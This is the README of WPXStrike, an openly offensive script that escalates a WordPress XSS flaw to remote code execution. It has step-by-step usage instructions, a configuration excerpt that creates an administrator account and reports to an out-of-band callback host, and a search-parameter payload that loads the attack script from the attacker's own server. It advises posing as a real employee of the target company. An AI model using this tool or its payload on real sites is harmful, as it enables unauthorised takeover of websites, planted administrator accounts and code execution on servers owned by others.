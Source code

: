 
<h1 align="center">
  <br>
  <img src="https://github.com/nowak0x01/WPXStrike/assets/96009982/36f99c00-31f9-45fa-ab4d-746481a16de4" alt="WPXStrike" width="350">
  <br>
  WPXStrike
  <br>
</h1>



<h4 align="center">WordPress Exploitation Script that elevate XSS to RCE or Others Critical Vulnerabilties</a>.</h4>

<p align="center">
  <a href="#about">About</a> •
  <a href="#key-features">Key Features</a> •
  <a href="#how-to-use">How To Use</a> •
  <a href="#examples">Examples</a> •
  <a href="#contributing">Contributing</a>
</p>

![screenshot](https://github.com/nowak0x01/WPXStrike/assets/96009982/c9cd4b27-e93d-4e90-bd69-b10c0fe36e60)

## About
_**WPXStrike**_ is a script designed to escalate a **Cross-Site Scripting (XSS)** vulnerability to **Remote Code Execution (RCE)** or other's criticals vulnerabilities in WordPress.

## Key Features

* _**Privilege Escalation**_
  - Creates an user in WordPress.
* _**(RCE) Plugin Upload**_
  - Upload your custom plugin to WordPress.
* _**(RCE) Built-In Plugin Edit**_
  - Edit a Built-In Plugins in WordPress.
* _**(RCE) Built-In Theme Edit**_
  - Edit a Built-In Themes in WordPress.
* _**(Custom) Custom Exploits**_
  - Custom Exploits for Third-Party WordPress Plugins/Themes.
  
## How To Use
https://github.com/nowak0x01/WPXStrike/assets/96009982/8b19e884-771f-4096-b1f0-9fd0fb13449d

1\) Clone the Repository
```bash
git clone https://github.com/nowak0x01/WPXStrike
```

2\) Edit the script by selecting the desired function and modifying its variable values. (Example: _**WPCreateAccount**_)
```
var Target = "https://example.com/wordpress/"; // Ex: https://172.16.0.13:8000/wordpress/
var Callback = "https://xopy8j7taqgx8638bcvddnufh3nxbozd.oastify.com/"; // Ex: https://collaborator.oastify.com/ (optional) (only if you want to receive feedback at each stage).

// ************************************ ~% Functions %~ ************************************ //

WPCreateAccount(); // (Privilege Escalation) - Creates an user in WordPress.
// WPUploadCustomPlugin(); // (RCE) - Upload your custom plugin to WordPress.
// WPEditPlugins(); // (RCE) - Edit a Built-In Plugins in WordPress.
// WPEditThemes(); // (RCE) - Edit a Built-In Themes in WordPress.
// CustomExploits(); // (Custom) - Custom Exploits for Third-Party WordPress Plugins/Themes.

function WPCreateAccount() {

    /* ************************************************************************************************************************************************ */
    var Username = "nowak";         // Ex: operator (It is recommended to use a valid employee name from the target company).
    var Password = `j^QEkyvd7*g3xqsE`;          // (weak password are allowed).
    var Email = "nowak@example.com";  // Ex: user@company.net (It is recommended to use a business email from the target company) (No email will be sent to the email address entered).
    var Role = "administrator";                 // Ex: administrator, editor, author, contributor, subscriber.
    var FirstName = ""; // (optional)
    var LastName = "";  // (optional)
    /* ************************************************************************************************************************************************ */

    ...

```

3\) Start a web server
```bash
php -S 0.0.0.0:80 -t .
```

4\) Go to the WordPress XSS vector and include _**WPXStrike.js**_
```
https://example.com/wordpress/?search=<script src="//YOURIP/WPXStrike.js"></script>
```

## Examples
**_WPCreateAccount()_ - Creates an user in WordPress.**



https://github.com/nowak0x01/WPXStrike/assets/96009982/f0e09621-a1c3-48a6-9d44-02acc865b78d

**_WPUploadCustomPlugin()_ - Upload your custom plugin to WordPress.**

https://github.com/nowak0x01/WPXStrike/assets/96009982/4ccf866d-2f05-4c9e-abd2-7e8f65c1dc65

**_WPEditThemes()_ - Edit a Built-In Themes in WordPress.**

https://github.com/nowak0x01/WPXStrike/assets/96009982/2ad761e6-2480-4300-bc80-28ea7a8dc04a

**_WPEditPlugins()_ - Edit a Built-In Plugins in WordPress.**

https://github.com/nowak0x01/WPXStrike/assets/96009982/205534b3-b41f-4971-bd78-c346c7c774e5

**_CustomExploits()_ - Custom Exploits for Third-Party WordPress Plugins/Themes**.<br>
// pending

# Contributing
Pull requests are more than welcome.<br>
I will try to maintain this project updated, whenever possible by adding new exploits in the `CustomExploits()` module.<br>
If u want to contribute with this, adding new exploit functions to `CustomExploits()` or improving the code, I'll be very grateful.
